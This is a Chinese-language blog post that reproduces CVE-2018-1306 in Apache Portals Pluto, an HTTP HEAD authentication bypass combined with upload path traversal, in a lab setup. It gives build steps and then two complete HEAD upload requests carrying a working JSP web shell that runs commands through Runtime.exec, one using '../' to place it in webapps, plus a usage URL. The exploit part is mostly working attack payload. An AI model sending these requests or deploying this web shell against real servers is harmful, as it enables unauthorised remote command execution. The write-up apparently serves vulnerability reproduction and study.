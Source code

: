 ```yaml
---
layout: post
title:  "Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306) " 
date:   2019-08-05 11:03:16
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Portals Pluto 任意文件上传漏洞()
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)

### 漏洞概述

Apache Pluto使用Web.xml中的安全约束配置来控制对资源的访问，但是其中的安全约束配置存在缺陷，攻击者可以绕过身份验证。安全约束配置中，Pluto定义了GET、POST、PUT方法，由于未列出HEAD方法，因此可以使用HTTP HEAD方法来绕过安全约束策略。

并且PortletV3AnnotatedDemo Multipart Portlet war文件代码未限制和验证文件上传路径，攻击者可以利用"../"来自定义上传文件的保存路径。 利用两个设计缺陷进行配合，攻击者可以上传任意文件到任意文件目录，从而能获取服务器的webshell。

### 漏洞环境搭建

* 从 github clone 最新的源码 ：
  
  git clone https://github.com/apache/portals-pluto.git pluto

* 切换分支到3.0.1版本
  
  git checkout pluto-3.0.1

* 安装环境（ant 自动安装）
  
  ant -f dist-build.xml -DincludeDemos=true -DnoClean=true

* 启动环境
  
  进入到/pluto/target/dist/XXX/bin文件夹下，XXX为项目版本的文件夹
  
  运行startup.sh(\*nix)startup.bat(win)

### 漏洞复现

使用 burp 发送以下请求到 Apache Pluto：

```javascript
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 727

--XX
Content-Disposition: form-data; name="file"; filename="jspshell.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='jspshell.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX-- 
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 748

--XX
Content-Disposition: form-data; name="file"; filename="../../../webapps/pluto/qiuge.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='qiuge.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX--
```

webshell使用：http://172.16.5.146:8080/pluto/qiuge.jsp?cmd=hostname
